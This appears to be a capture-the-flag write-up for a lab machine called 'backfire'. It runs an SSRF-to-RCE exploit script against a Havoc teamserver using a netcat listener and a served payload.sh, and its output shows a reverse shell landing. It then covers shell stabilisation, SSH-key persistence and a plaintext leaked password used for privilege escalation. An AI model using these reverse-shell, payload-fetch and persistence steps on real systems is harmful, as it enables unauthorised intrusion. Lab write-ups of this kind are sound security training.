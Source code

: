 ## 🔧Running the script  
1.) Set up a listener:
```
nc -lnvp 40056
```
2.) Set up http.server
```
python -m http.server
```
3.) Run
```
sudo python3 SSRF_RCE.py -t https://backfire.htb -i 127.0.0.1 -p 40056
```
(Note: Make sure they are in seperate terminals and run them all at once. I had to press them
simultaneously)
### 🧑‍💻My Machine 
```
nc -lnvp 40056
listening on [any] 40056 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.248.240] 56560
bash: cannot set terminal process group (51025): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$
```
```
python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.248.240 - - [23/Jan/2025 20:52:55] "GET /payload.sh HTTP/1.1" 200 -
```
```
sudo python3 SSRF_RCE.py -t https://backfire.htb -i 127.0.0.1 -p 40056
[***] Trying to register agent ...
[***] Success!
[***] Trying to open socket on the teamserver ...
[***] Success!
[***] Establishing connection to teamserver ...
[***] Success!
[***] Authenticating to teamserver ...
[***] Success!
[***] Creating Listener ...
[***] Success!
[***] Injecting Command ...
[***] Success!
```
### 🧑‍💻 Getting a Shell/User.txt
After RCE, stabilize your shell using:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Then generate an SSH key:
```
ssh-keygen -t ed25519
```
Add the public key to ~/.ssh/authorized_keys on the target and ssh into the machine.
```
ssh -i id_ed25519 ilya@<Target-IP>
```
## 🪜 Privilege Escalation
Switch to another user using leaked creds:
User: `sergej`
Pass: `1w4nt2sw1tch2h4rdh4tc2`
```
su sergej
```